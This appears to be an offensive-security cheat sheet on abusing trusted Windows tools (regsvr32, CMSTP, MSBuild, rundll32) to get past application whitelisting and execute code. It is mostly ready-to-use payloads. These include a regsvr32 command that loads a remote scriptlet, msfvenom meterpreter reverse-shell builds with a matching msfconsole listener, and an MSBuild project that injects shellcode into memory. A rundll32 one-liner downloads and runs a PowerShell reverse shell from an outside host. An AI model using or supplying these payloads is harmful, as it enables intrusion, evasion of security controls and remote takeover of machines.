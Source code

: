 # Trusted Developer Tools

## Regsvr32

regsvr32 is a command-line utility in Microsoft Windows for registering and unregistering DLLs and ActiveX controls in the operating system Registry.

use regsvr for bypass os and application whitelist and code execution 

### payload

```command
regsvr32  /s  /i:http://192.168.1.46/nss.sct  scrobj.dll
```

* `/s` prevent display message

* `/i` pass command line string

* `scrobj.dll` is a Windows Script Component Runtime
  
  #### nss.sct
  
  ```javascript
  <?XML version="1.0"?>
  <scriptlet>
  <registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("cmd.exe"); 
    ]]>
  </script>
  </registration>
  </scriptlet>
  ```

## CMSTP

CMSTP is a binary which is associated with the Microsoft Connection Manager Profile Installer. It accepts INF files which can be weaponised with malicious commands in order to execute arbitrary code in the form of scriptlets (SCT) and DLL

### payload

```command
cmstp /s nss.inf
```

* `/s` Specifies that the service profile should be installed or uninstalled silently

#### nss.inf

```javascript
[version]
Signature=$nooranet$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection

[RegisterOCXSection]
E:\Execution\nss.dll

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="nooranetprofile"
ShortSvcName="nooranetprofile"
```

* `Nss.dll`
  
        msfvenom  -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f dll > nss.dll

## MSBUILD

MSBUILD Engine is a platform for building applications. MSBuild, provides an XML schema for a project file that controls how the build platform processes and builds software.

### payload

```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe e:\Execution\nooranet.xml
```

* `nooranet.xml` 
  
  ```javascript
  <Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
          
    <Target Name="Hello">
      <ClassExample />
    </Target>
    <UsingTask
      TaskName="ClassExample"
      TaskFactory="CodeTaskFactory"
      AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
      <Task>
     
        <Code Type="Class" Language="cs">
        <![CDATA[
  using System;
  using System.Runtime.InteropServices;
  using Microsoft.Build.Framework;
  using Microsoft.Build.Utilities;
  public class ClassExample :  Task, ITask
  {        
    private static UInt32 MEM_COMMIT = 0x1000;         
    private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;         
    [DllImport("kernel32")]
      private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
      UInt32 size, UInt32 flAllocationType, UInt32 flProtect);         
    [DllImport("kernel32")]
      private static extern IntPtr CreateThread(           
      UInt32 lpThreadAttributes,
      UInt32 dwStackSize,
      UInt32 lpStartAddress,
      IntPtr param,
      UInt32 dwCreationFlags,
      ref UInt32 lpThreadId          
      );
    [DllImport("kernel32")]
      private static extern UInt32 WaitForSingleObject(          
      IntPtr hHandle,
      UInt32 dwMilliseconds
      );         
    public override bool Execute()
    {
  //replace with your own shellcode
     byte[] shellcode = new byte[354] { your shellcode} ;
  # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f csharp
       
        UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
        IntPtr hThread = IntPtr.Zero;
        UInt32 threadId = 0;
        IntPtr pinfo = IntPtr.Zero;
        hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
        return true;
    }
  }    
        ]]>
        </Code>
      </Task>
    </UsingTask>
  </Project>
  ```

* `shellcode` 
  
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f csharp 
  ```

* `Listener`

```bash
msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"                        
```

## Rundll32

Loads and runs dynamic-link libraries (DLLs)

#### payload -1

```powershell
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";alert("nooranet")
```

#### payload -2

```powershell
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

#### payload -3

```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -w 1 -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.46/rshell.ps1');")
```

#### payload -4

```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```